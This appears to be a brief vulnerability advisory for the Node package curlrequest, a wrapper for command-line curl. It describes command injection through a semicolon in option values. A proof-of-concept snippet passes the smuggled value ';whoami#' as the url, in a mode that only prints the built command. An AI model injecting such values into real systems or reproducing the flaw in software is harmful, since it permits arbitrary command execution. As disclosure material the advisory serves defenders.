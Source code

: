 # Overview

curlrequest is a curlrequest is a node wrapper for the command line curl.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the options values.

## Proof of Concept

```
var curl = require("curlrequest");

let userPayload = ";whoami#";
curl.request({ url: userPayload, pretend: true }, function(err, stdout, meta) {
  console.log("%s %s", meta.cmd, meta.args.join(" "));
});
```

